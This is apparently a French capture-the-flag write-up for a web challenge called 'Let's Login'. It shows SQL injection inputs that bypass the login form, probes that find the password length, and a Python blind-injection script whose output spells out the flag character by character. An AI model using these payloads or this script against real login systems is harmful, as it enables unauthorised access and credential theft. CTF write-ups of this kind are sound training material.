



**Let's Login - Web - 150pts**



__Résolution :__

On commence par tester un peut la robustesse du formulaire de login :
```
name =admin' OR 1=1 limit 1--
pass =toto
```


On est bien arrivé à passer à travers l'authentification et on obtient cela :



Il faut maintenant trouver la taille du mot de passe de l'administrateur :
```
name=admin' and length (pass)<25--
pass=toto
```

Si notre requête est juste, le serveur web nous renvoi la page contenant le nom des colonnes.

On fait cela jusqu'à obtenir la taille exact :
```
name=admin' and length (pass)=22--
pass=toto
```
Ensuite grâce à la fonction substring en sql et notre script on retrouve rapidement le mot de passe :

```PYTHON
import requests
import string

alphabet=string.printable
i=0 
flag=""
while i <= 22 :

  for lettre in alphabet :
    username="admin' and substr(pass,"+str(i)+",1)=char("+str(ord(lettre))+")--"
    identifiants={'name':username,'pass':"toto"}
    r=requests.post("https://login.problem.ctf.nw.fit.ac.jp/login.php", data = identifiants ,verify=True)
    if "Column name" in r.text :
      print "la bonne lettre est :"+str(lettre)
      flag+=str(lettre)
      break
  i+=1
  print flag


```

```
la bonne lettre est :u
FIT{9n89_y0u3u
la bonne lettre est :_
FIT{9n89_y0u3u_
la bonne lettre est :9
FIT{9n89_y0u3u_9
la bonne lettre est :a
FIT{9n89_y0u3u_9a
la bonne lettre est :8
FIT{9n89_y0u3u_9a8
la bonne lettre est :1
FIT{9n89_y0u3u_9a81
la bonne lettre est :1
FIT{9n89_y0u3u_9a811
la bonne lettre est :}
FIT{9n89_y0u3u_9a811}
```

By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
